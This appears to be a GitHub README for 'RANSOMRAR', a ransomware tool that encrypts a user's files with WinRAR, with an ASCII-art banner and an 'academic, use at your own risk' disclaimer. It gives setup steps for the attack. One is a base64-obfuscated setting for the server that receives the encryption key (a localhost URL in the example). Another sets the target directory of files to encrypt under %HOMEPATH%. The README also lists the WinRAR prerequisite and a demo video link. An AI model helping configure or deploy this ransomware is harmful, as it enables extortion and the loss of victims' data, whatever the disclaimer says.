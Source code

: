 
          ____      _    _   _ ____   ___  __  __ ____      _    ____  
         |  _ \    / \  | \ | / ___| / _ \|  \/  |  _ \    / \  |  _ \ 
         | |_) |  / _ \ |  \| \___ \| | | | |\/| | |_) |  / _ \ | |_) |
         |  _ <  / ___ \| |\  |___) | |_| | |  | |  _ <  / ___ \|  _ < 
         |_| \_\/_/   \_\_| \_|____/ \___/|_|  |_|_| \_\/_/   \_\_| \_\ by jhdbw
                                                                                                                                                
This project is purely academic, use at your own risk. I do not encourage in any way the use of this software illegally or to attack targets without their previous authorization.

Remember to specify the server that will receive the key:
```javascript
REM set b64="http://127.0.0.1:7777/"
set b64=Imh0dHA6Ly8xMjcuMC4wLjE6Nzc3Ny8i
```

To limit the scope of RANSOMRAR check the following line of code:
```javascript
set target=%HOMEPATH%\ransomrar
```
### Pre requirements
The computer must have WinRAR installed.

### Video
https://youtu.be/ZqzmWpSU6g4

